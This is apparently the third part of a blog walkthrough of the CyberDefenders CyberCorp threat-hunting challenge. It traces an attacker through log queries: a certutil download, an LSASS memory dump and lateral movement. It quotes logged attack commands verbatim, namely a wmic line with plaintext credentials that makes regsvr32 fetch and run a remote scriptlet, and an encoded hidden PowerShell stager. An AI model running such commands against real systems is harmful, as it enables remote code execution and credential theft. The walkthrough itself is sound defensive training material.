The second case of the CyberCorp challenge on CyberDefenders.org is all about threat hunting. Created by @BlackMatter23 and his team, this challenge is based on a real-world attack so it is perfect for gaining practical experience in threat hunting.
This write-up is the third and final part of this walkthrough. You could read Part 1 here and Part 2 here.
Finding the post-reverse shell activity
Question 11. As a result of running a malicious code, which we talk about in questions 9 and 10, the attacker got a shell on the compromised host. Using this access, the attacker downloaded the Active Directory collection utility to the host in an encoded form. Specify a comma-separated, non-spaced link where the encoded version of the utility was downloaded and a SHA256 hash of the decoded version that was directly run by the attacker on the compromised host.
So from the question, I knew that the download happened after the reverse-shell was run. And so I changed the start date timestamp to Jun 22, 2021 @ 07:41:56.000. I also knew that because there was a downloaded file, there would definitely be "NetworkConnection" and "FileCreate" events that would happen afterward. And so, the query I've created is this:
event_type:FileCreate OR event_type:NetworkConnection

The result shows cmd.exe creating a certutil.exe process. And the reason why this is suspicious is that certutil.exe can be used as an alternative way of downloading files from an external source. You can read more about this here.
The next event shows certutil.exe establishing a connection to an external IP and downloading the file chrome_installer.log2:data. This tells us the first half of the answer to the question.
The next step is to find out the SHA256 of the decoded version of the downloaded file. I then updated the timestamp to Jun 22, 2021 @ 07:46:10.000, which is the time the file was downloaded, and then used the query:
event_type:ProcessCreate AND enrich.ioa.max_severity:*

We could see that cmd.exe created the process svchost.exe, but the suspicious thing is that the process' directory is c:\windows\temp\ which is highly unusual for svchost.exe to run from. We can easily assume that the previously downloaded chrome_installer.log2 was renamed to svchost.exe and this is the one that it ran. Getting the hash for this file will give us the second half of our answer to this question.
Finding the dump file
Question 12. During the post-exploitation process, the attacker used one of the standard Windows utilities to create a memory dump of a sensitive system process that contains credentials of active users in the system. Specify the name of the executable file of the utility used and the name of the memory dump file created, separated by a comma without spaces.
Without changing the date range and the query from the previous question, I continued to investigate the other events that have a value of high in its enrich.ioa.max_severity field. The event below happened a few seconds after the event from the previous question.

From the enrich.ioa.rules field we can see the value win_memory_dumping_via_comsvcs_minidump. What happened was that rundll32.exe executed the comsvs.dll and dumped the LSASS memory into a dump file. You can learn more about this technique here. Here is that technique visualized with my vATT&CK tool:

From the information above, we now have what we need to answer the question.
Detecting lateral movement
Question 13. Presumably, the attacker extracted the password of one of the privileged accounts from the memory dump we discussed in the previous question and used it to run a malicious code on one of the domain controllers. What account are we talking about? Specify its username and password as the answer in login:password format.
The first thing I wanted to find out was to figure out what the IP of the domain controller is. I knew that there is a Windows event ID 5308 (Microsoft-Windows-Group-Policy) that lists the domain controller details. So I made a query based on that and also added in search for the texts "domain" and "controller".
event_id:5308 AND ("domain" OR "controller")
And this gave me exactly what I was looking for:
Domain Controller details:
Domain Controller Name : DC01-CYBERCORP.cybercorp.com
Domain Controller IP Address : 192.168.184.100
Now that I know the IP, I can now search for any events related to this IP:
net_dst_ipv4:192.168.184.100 AND enrich.ioa.max_severity:*

As we can see, we have a wmic command that passes the username and password to the domain controller's IP. This answers question 13.
Side Quest: Tracing the next steps
I wanted to find out what exactly happens when the command line from the previous question is run:
wmic /node:192.168.184.100 /user:inventory /password:jschindler35 process call create 'regsvr32 /u /n /s /i:http://94.177.253.126:8080/Ec9KoccK.sct scrobj.dll'
From my research, I learned that this is using WMI to execute a process on a remote host. In this case, regsvr32 is called to execute the specified remote .sct file with scrobj.dll. More info about this technique here and here.

The second group
Question 14. A compromised user account is a member of two Built-in privileged groups on the Domain Controller. The first group is the Administrators. Find the second group. Provide the SID of this group as an answer.
To solve this, we'll be needing to make a search query with the following information that we got from the previous questions:
inventory- The name of the compromised user accountDC01-CYBERCORP.cybercorp.com- The hostname of the domain controller192.168.184.100- IP of the domain controller
("inventory" OR "group") AND "DC01-CYBERCORP.cybercorp.com" AND dev_ipv4:192.168.184.100 AND usr_tgt_name:Inventory
There will be a lot of entries, but the one below would have information that we need:

The event lists the group membership information for the user inventory. Within the field usr_token_groups we can see the following information:
%{S-1-5-21-3899523589-2416674273-2941457644-513}
%{S-1-1-0}
%{S-1-5-32-544}
%{S-1-5-32-551}
%{S-1-5-32-545}
%{S-1-5-32-554}
%{S-1-5-2}
%{S-1-5-11}
%{S-1-5-15}
%{S-1-18-1}
%{S-1-5-21-3899523589-2416674273-2941457644-1105}
%{S-1-16-12288}
Based on this and this, User Token Groups contains the list of security identifiers for groups and that it holds both direct group membership and recursive list of nested groups. This means that the answer to our question is included in that list.
I decided to search for any mention of the SID format S-1-.... So I changed the query to this:
"S-1-*" AND groups AND "DC01-CYBERCORP.cybercorp.com" AND dev_ipv4:192.168.184.100
This revealed a new type of event_type value which is InventoryInfo, as shown below:

This inventory info seems to be from an inventory collection tool, but I could not get more info more than that. What is important to us though is the dev_inventory field which contains:
...
{
"sid": "S-1-5-32-544",
"name": "BUILTIN\\Administrators",
"members": [
"CYBERCORP\\Administrator",
"CYBERCORP\\Enterprise Admins",
"CYBERCORP\\Domain Admins",
"CYBERCORP\\inventory"
]
},
...
{
"sid": "S-1-5-32-551",
"name": "BUILTIN\\Backup Operators",
"members": [
"CYBERCORP\\backupsrv",
"CYBERCORP\\inventory"
]
},
...
The information above shows us two groups that contain inventory as one of their members. The question mentions something about Administrators being the first group, then that means the other group is none other than Backup Operators. Getting the sid of this is our answer to this question.
The Second Reverse Shell
Question 15. As a result of malicious code execution on the domain controller using a compromised account, the attacker got a reverse shell on that host. This shell used a previously not seen IP address as the command center. Specify its address as the answer.
My initial approach was I set the start date to Jun 22, 2021 @ 08:21:22.000 which is the timestamp when the attacker was able to run a remote code on the domain controller (See question #13). I also searched for event_type with a value of NetworkConnection and made sure that the events only happened in the domain controller's IP.
event_type:NetworkConnection AND dev_ipv4:192.168.184.100
This, however, showed too many events. There are just too many network events and too little information in the question to sift through them all.
I knew from the hint that the format of the IP is XXX.XXX.XX.XX. This already helps a lot in narrowing our options, but I still wanted to find it without relying on the hint.
So I used a different approach. My thought process was to start from when the initial code was ran on the domain controller and go see what happened next. This code ran regsvr32 which executed an external script (See Question #13). We could use in our query, and so we get:
dev_ipv4:192.168.184.100 OR "regsvr32"
The results of this query was more revealing:

The very first entry is our wmic event that used regsvr32. This is followed by a PowerShell script accessing lsass.exe and also injecting code into svchost.exe.
I then continued down the list of events to check for any outbound network connections with an IP that has not been previously seen. Unfortunately, the events are still too many to go through. Looking at the Top 5 values also wasn't of too much help.
Going back to the list of events we can see that immediately following the wmic event, there is a powershell process that accesses lsass.exe. It also has a very interesting entry under the proc_cmdline field:
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nop -w hidden -noni -c "&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String('H4sIADES+14CA7VWa2+bSBT9nEj5D6iyBCiOjV03yUaqtIAhxrVTU2z8qlVhGMPEw6MwxCbd/ve9Y0OaqmnVrrQIiXnc57ln5rLJI5fiOOLc8Sfuy9npychJnZATau51nauF7iUST05guZYlLp1zbzlhKSdJNw4dHK1ubtQ8TVFEj/PGLaJylqFwTTDKBJH7h5sGKEUX79f3yKXcF672qXFL4rVDSrFCddwAcRdy5LG9Qew6LJiGlRBMBf7jR15cXrRWDe1z7pBM4K0ioyhseITwIvdVZA7HRYIEfojdNM7iDW1McfS63ZhEmbNBd2DtAQ0RDWIv40VIA94U0TyNuGNCzMJxX+BhOEpjV/a8FGUZX+eWzPZytfpbWJaOP+QRxSFqGBFFaZxYKH3ALsoaPSfyCPqANivQsmiKI38liiD2EG+RUItyQurcn5gR7tCugu13lYTnSiA1oqlYh0q+lOgw9nKCjqr8C5FC+UV4KgoAdF/PTs9ONxVbvOI5WWB0sjyMEcQmjOIMH6TeclKdG4ITh8ZpAdPaOM2RuHpClqt9dus/125VoiDoZrCwtGPsrUChrGVto07MkG38nJRdtMER6haRE2K34p3wEsBoQ9AhvUYldgcxCXy5gbwuIsh3KEOM1fkHNS3E9ElXyTHxUCq7UKQMooL6id8HcyyCwBvREIUA0HEOxKttgO2oki4ZXlTe2RyEeJU4WVbnRjkcN7fOWcghyKtzcpThckvOaXwY8t/CHeaEYtfJaGVuJT4BWTpU4yijae5C0SD5sZUgFzuEYVHnethDSmFhv3LMv4iE6hAChwAsPUAlYIUhYFFGhRRihLKLDQtRI0wICkHicOx14vhwyEuiH5jj+MjjfwiwIvKRtQyLCoRn4UGBLRLTOmfjlML1wXB1s//i+9mlcYxCTVFZB6E6GUuloIzRtfU9o2OJyCH/lELuehqHipOhy87xehBeNTXcfTPqxo8yPJr+wbQVa2IvjKHXJ5ZBrbmGB5MgMHDL8GFeTDR/RKXk3Xjc61vdnpx298FGNjJD6ymF2VJkt4ev7L4ymYAeVgfm/d6QPSX0Z/5c3RmjYGaAI3XgGz58FSNwFWkh+YqkqwNLCTQsyb5l9sxOa2E0r4mCHy3DknvTJ39PfrROpzfbj+W7YV8O9Pee3mrrB/0t019sbwdd7TB32dycZxrWwI+mz007QFM7UaaavjDtxPDPd75pD5odPVBg3cD7QWI14Wm1+g+R9zgk149DCNe0F32MFoaPCl82ZdmaR8Ra71RZ7V49JHPJ2OoTWNuOjWhvrpOhV8x7zb/sIUZJLJuaLOsEjmMoO7tuszWN35n2G3OiSftiIu132n1zp+H+blt+J7eXl35z0xk1bcuIek6gQLxFv7PF/XPYCx1bmm+aNsOvq0XNx2hGnJHaism62Zrg7pWiGBj174Yu+axAzmDjjbmO1bYbbCAmw782/VkctZ0t2J36MkQH+UGdN30DdJSc4O3kfMZs9XdS2N9LLM6wfw2xtcsYZBoZsybEJ/e6lhrdWsas7SFdaZ67b18xygJna1vvGRN/1j2GTpoFDgGGQleorgQ9TvXyph/FmGkIAvs/2KI0QgTaKzTg6ljJhMQu6zPQEqDDHfsOa4MTGL5uvzgSuSdB8VvzqZZubhYQIhzU9X1jgCKfBnVp/1qSoJdI+44E6f1+UmqcFAIYqrNOBIgcrZKDVZGd21p6dfW/wlTeFQF8vF/D9G3tF7u/BZ1UZ6n+sPj9wh/h+KdZTx1MQdCCm46gY5t9KfmSDs9+QKAcUO1N+bBfyPc5vbiD35Kz038BKGgg/awKAAA='))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))"
Decoding the base64 string would reveal a PowerShell script that has a hash that VirusTotal flags as malicious.

This is a good indication that this PowerShell process is up to no good. Now we need to find out what other things this process did. The process has a PID of 4460, so plugging that into a query we get:
(proc_id:4460 OR proc_p_id:4460 OR proc_c_id:4460 OR proc_tgt_id:4460) AND dev_ipv4:192.168.184.100
And these are the results:

Looking at the external IP that the process is connecting to, we could see that this is something new that we have not seen before. Thankfully, I had been making a list of all internal and external IPs that I came across during the challenge (Just shows the importance of writing down every information you come across!). Plugging this IP is our solution to this problem.
There we have it. We've gone through and answered all 15 questions. Congratulations if you've made it this far!
If you missed it, you could read Part 1 here and Part 2 here.
I hope that I was able to help you in understanding the process of solving this challenge. I had a lot of fun going through and writing about it. Again, thank you to @BlackMatter23 and the team for sharing this challenge and to CyberDefenders for hosting it.